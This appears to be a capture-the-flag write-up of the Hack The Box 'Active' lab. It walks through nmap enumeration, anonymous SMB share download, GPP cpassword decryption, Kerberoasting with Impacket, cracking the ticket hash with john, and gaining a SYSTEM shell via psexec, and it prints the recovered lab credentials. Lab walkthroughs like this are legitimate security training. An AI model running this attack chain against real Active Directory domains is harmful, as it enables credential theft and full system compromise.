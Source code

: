 HTB - Active 10.129.138.35

Enumeration:

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49169/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49174/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=8/5%OT=53%CT=%CU=38448%PV=Y%DS=2%DC=T%G=N%TM=64CE5211%P=aarch64-unknown-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS=7)
OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)
T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.007 days (since Sat Aug  5 08:34:15 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-05T13:47:19
|_  start_date: 2023-08-05T13:38:22
|_clock-skew: 3m42s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 27111/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44592/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11044/udp): CLEAN (Failed to receive data)
|   Check 4 (port 39378/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   69.49 ms 10.10.14.1
2   69.86 ms 10.129.138.35


From the nmap scan we can see the name of the domain is active.htb. Let's add that to our /etc/hosts file.

$ echo "10.129.138.35   active.htb" >> /etc/hosts

Listing SMB Shares with smbmap we can see that we have access to the Replication Share. We can connect to it with smbclient and transfer all the files to our local machine with the following commands.

smbclient -N //active.htb/Replication

smb: \> prompt 
smb: \> recurse ON
smb: \> mget *

cat Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>


Username: active.htb\SVC_TGS

cpassword: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18

We get a password of GPPstillStandingStrong2k18

Username: active.htb\SVC_TGS
Password: GPPstillStandingStrong2k18


Initial foothold with Impacket.

impacket-GetUserSPNs 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-usersfile USERSFILE] [-request]
                      [-request-user username] [-save] [-outputfile OUTPUTFILE] [-debug] [-hashes LMHASH:NTHASH]
                      [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain/username[:password]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting
                        across trusts.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain
                        needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format
  -debug                Turn DEBUG output ON
  
  
# impacket-GetUserSPNs -request -dc-ip 10.129.138.35 active.htb/SVC_TGS:GPPstillStandingStrong2k18


# john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:10 DONE (2023-08-05 10:10) 0.09980g/s 1051Kp/s 1051Kc/s 1051KC/s Tiffani29..Thrasher
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


We now have a pasword of Ticketmaster1968

# impacket-psexec active.htb/administrator@10.129.138.35 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.138.35.....
[*] Found writable share ADMIN$
[*] Uploading file NSWiFSOA.exe
[*] Opening SVCManager on 10.129.138.35.....
[*] Creating service BWEB on 10.129.138.35.....
[*] Starting service BWEB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system


And we now have a shell as NT AUTHORITY \ SYSTEM!!!





